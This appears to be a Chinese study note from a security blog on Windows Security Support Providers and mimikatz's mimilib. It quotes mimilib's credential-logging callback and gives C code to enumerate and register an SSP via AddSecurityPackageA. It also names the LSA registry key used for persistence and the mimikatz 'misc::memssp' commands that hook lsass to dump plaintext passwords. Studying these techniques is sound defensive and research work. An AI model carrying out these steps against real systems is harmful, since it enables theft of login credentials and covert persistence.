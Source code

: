 ```yaml
---
title: SSP与mimilib
date: 2019-12-31 23:59:47 +0800
categories: [域安全, TA0006凭据访问]
tags: [mimikatz, ssp, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




学习了以下文章，整理SSP相关笔记:

[Mimikatz中SSP的使用](https://3gstudent.github.io/3gstudent.github.io/Mimikatz%E4%B8%ADSSP%E7%9A%84%E4%BD%BF%E7%94%A8/)

[深入分析Mimikatz：SSP](https://www.anquanke.com/post/id/180001#h2-1)

[Exploring Mimikatz - Part 2 - SSP](https://blog.xpnsec.com/exploring-mimikatz-part-2/)



## SSPI&SSP

![img](/assets/img/1963614-20200422220757960-542959289.png)

- SSPI(Security Support Provider Interface)

这是 Windows 定义的一套接口，此接口定义了与安全有关的功能函数， 用来获得验证、信息完整性、信息隐私等安全功能，就是定义了一套接口函数用来身份验证，签名等，但是没有具体的实现。

- SSP(Security Support Provider)

 SSPI 的实现者，对SSPI相关功能函数的具体实现。微软自己实现了如下的 SSP，用于提供安全功能：

1. NTLM SSP: msv1_0.dll
2. Kerberos: kerberos.dll
3. Cred SSP
4. Digest SSP
5. Negotiate SSP
6. Schannel SSP
7. Negotiate Extensions SSP
8. PKU2U SSP

在系统层面，SSP就是一个dll，来实现身份验证等安全功能，实现的身份验证机制是不一样的。比如 NTLM SSP 实现的就是一种 Challenge/Response 验证机制。而 Kerberos 实现的就是基于 ticket 的身份验证机制。我们可以编写自己的 SSP，然后注册到操作系统中，让操作系统支持更多的自定义的身份验证方法。



## SSP的实现-mimilib

mimikatz中的[mimilib](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/mimilib.def)可以作为一个SSP来使用，mimilib通过模块定义文件.def声明了一堆导出函数，其中就有`SpLsaModeInitialize`。

```
SpLsaModeInitialize		=	kssp_SpLsaModeInitialize
```

`SpLsaModeInitialize`是SSP的初始化函数，由LSA加载自己时调用。`SpLsaModeInitialize`的主要功能是给参数*ppTables*赋值，用于告诉LSA各个回调函数的地址；*ppTables* 指向[SECPKG_FUNCTION_TABLE](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_function_table)结构体，LSA需要SSP实现的函数指针都包含在此结构体内。

![image-20201018135645727](/assets/img/image-20201018135645727.png)

mimilib SSP就实现了`SpLsaModeInitialize`及以下4个回调函数，相关实现都在[kssp.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kssp.c)

```
SpInitialize：用来初始化SSP，提供一个函数指针列表。
SpShutDown：卸载SSP时就会被调用，以便释放资源。
SpGetInfoFn：提供SSP相关信息，包括版本、名称以及描述。
SpAcceptCredentials：接收LSA传递的明文凭据，以便SSP缓存。
```

可以看到 kssp_SpAcceptCredentials 内部实现就是将获取到的明文凭据写到kiwissp.log中，认证结果直接访问Success。

```
NTSTATUS NTAPI kssp_SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	FILE *kssp_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kssp_logfile = _wfopen(L"kiwissp.log", L"a"))
#pragma warning(pop)
	{	
		klog(kssp_logfile, L"[%08x:%08x] [%08x] %wZ\\%wZ (%wZ)\t", PrimaryCredentials->LogonId.HighPart, PrimaryCredentials->LogonId.LowPart, LogonType, &PrimaryCredentials->DomainName, &PrimaryCredentials->DownlevelName, AccountName);
		klog_password(kssp_logfile, &PrimaryCredentials->Password);
		klog(kssp_logfile, L"\n");
		fclose(kssp_logfile);
	}
	return STATUS_SUCCESS;
}
```



## 操作SSP

### 遍历 

**EnumerateSecurityPackagesA**

```
#define SECURITY_WIN32

#include <stdio.h>
#include <Windows.h>
#include <Security.h>
#pragma comment(lib,"Secur32.lib")

int main(int argc, char **argv) {
	ULONG packageCount = 0;
	PSecPkgInfoA packages;

	if (EnumerateSecurityPackagesA(&packageCount, &packages) == SEC_E_OK) {
		for (int i = 0; i < packageCount; i++) {
			printf("Name: %s\nComment: %s\n\n", packages[i].Name, packages[i].Comment);
		}
	}
}
```



### 注册

方法1: 添加注册表后重启生效

在`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\Security Packages`中加入`mimilib.dll`的路径

不需要将mimilib.dll拷贝到system32目录下，路径中不包含空格就可以



方法2: 调用AddSecurityPackage

这种方法立即能生效，但为了驻留还是需要添加上述注册表，以防重启后失效。Empire中的Install-SSP.ps1就实现了这一过程。

```
#define SECURITY_WIN32

#include <stdio.h>
#include <Windows.h>
#include <Security.h>
#pragma comment(lib,"Secur32.lib")


int main(int argc, char **argv) {
	SECURITY_PACKAGE_OPTIONS option;
	option.Size = sizeof(option);
	option.Flags = 0;
	option.Type = SECPKG_OPTIONS_TYPE_LSA;
	option.SignatureSize = 0;
	option.Signature = NULL;
	SECURITY_STATUS SEC_ENTRYnRet = AddSecurityPackageA(argv[1], &option);
	printf("AddSecurityPackage return with 0x%X\n", SEC_ENTRYnRet);
}
```

注: `DeleteSecurityPackageA`删除SSP不起作用，可用3gStudent的[FreeDll](https://github.com/3gstudent/Homework-of-C-Language/blob/master/FreeDll.cpp)卸载mimilib.dll



方法3: RPC通知lsass加载SSP

没太看懂，POC没编译成功，大概原理是AddSecurityPackage的内部实现也是通过RPC调用，所以XPN使用了这个方法



## misc::memssp

这种方法也可以dump 明文凭据，原理是hook msv1_0.dll`的`SpAcceptCredentials函数，将凭据写入mimilsa.log中。

这种方式下，hook代码通过WriteProcessMemory被拷贝到`lsass`中，对lsass进程做写操作容易被检测到；相比添加SSP的方法，不需要dll落地，不需要添加注册表；

```
privilege::debug
misc::memssp
```





